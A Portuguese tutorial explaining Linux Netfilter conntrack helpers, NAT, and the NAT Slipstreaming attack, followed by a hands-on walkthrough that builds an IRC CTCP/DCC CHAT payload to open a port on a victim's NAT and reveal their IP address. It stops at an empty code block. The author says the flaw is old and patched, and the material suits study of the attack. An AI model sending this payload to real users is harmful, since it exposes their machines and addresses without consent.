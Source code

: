 E o NAT usa essas informações pra traduzir os packets passados por ele igual o NF faz. Um firewall também faz isso, por exemplo o IPTables e o Sophos.

O Connection Tracking/Conntrack do NF tem auxiliares (Helpers) pra se estender sob diversos protocolos como FTP (`nf_conntrack_ftp`), IRC (`nf_conntrack_irc`) entre outros..

Os helpers inspecionam apenas um packet por vez, então se as informações pro Conntrack estiverem divididas em 2 packets (por causa de fragmentação do endereço IP ou TCP Segmentation, sei la) o helper não vai reconhecer os padrões e não vai funcionar direito.
# O que é NAT
O Network Address Translation (NAT) é um método pra mapear o Address Space (basicamente uma range de endereços/numeros representando um objeto, tipo um endereço IP. No caso o address space de uma pool/range de endereços IPs seria por exemplo 172.\*.\*.\*) de um endereço ip em outro.

O NAT foi originalmente usado e criado acabar com a necessidade de ter que atribuir um endereço a cada host da pool quando alguma coisa relacionada à rede em si era mudada. Imagina o trabalho disso tudo antes do NAT.

Curiosidade: um endereço IP roteável pela internet de uma gateway do NAT pode ser usado pra uma rede privada inteira. 
## Slipstreaming
O NAT Slipstreaming é um ataque bem parecido com o NAT Pinning, é basicamente um Packet Injection que pode funcionar tanto no IRC quanto em qualquer outro protocolo, até HTTP.

O que faz isso ser possível é a porra do Application Level Gateway, que se for juntado ao NAT, pode se conectar remotamente à sua máquina. No caso no HTTP pode ser pelo WebRTC, e no IRC pode ser pelo DCC.

Com o payload certo, o NAT pode abrir a porta desejada pelo atacante, o que é muito crítico.
# Pondo em prática (depois de 3 séculos..)
Antes de começar, vou deixar claro que essa falha só é presente no Linux na release 5.9, e é antiga e quase todos (se não todos) os clientes já patchearam isso, e o NetFilter também.

Ok agora sem falatórios vamos pro hacking..

Podemos escolher um alvo à dedo e enviar uma query CTCP com o comando `PING` e o nosso payload, mas primeiro precisamos saber o endereço do servidor da rede IRC que ele está conectado, podemos usar o WHOIS do IRC.
```cpp
[client] /whois g
│02:39:31 irc.fodas.org  -- | [g] (~g@ngst.er): g
│02:39:31 irc.fodas.org  -- | [g] 192.223.24.132 (IRC Network)
│02:39:31 irc.fodas.org  -- | [g] End of /WHOIS list.
```
Agora que temos o endereço IP do servidor que ele está conectado (`192.223.24.132`), só converter pra decimal e fazer a zoeirinha clássica.
```cpp
seppuku> echo 192.223.24.132 | tr . '\n' | awk '{s = s*256 + $1} END{print s}'
3235846276
```
Ótimo, `3235846276`. Agora vamos construir o payload com o `DCC CHAT` e enviar pra nossa vitima `g`:
```cpp
PRIVMSG g: ^APING ^ADCC CHAT x 3235846276 443^A
                               |__ IP     |__ PORTA A SER ABERTA
```
Na tela do atacante o endereço IP do servidor na resposta deve ser substituído pelo endereço IP da vítima.
```graphql
CTCP ping reply from g: ADCC CHAT x 387151157 443
```
Agora sabemos que `387151157` é o endereço IP do alvo e com certeza a porta `443` agora está aberta. O que devemos fazer é transformar o endereço IP do alvo de decimal pra normal:
```cpp
```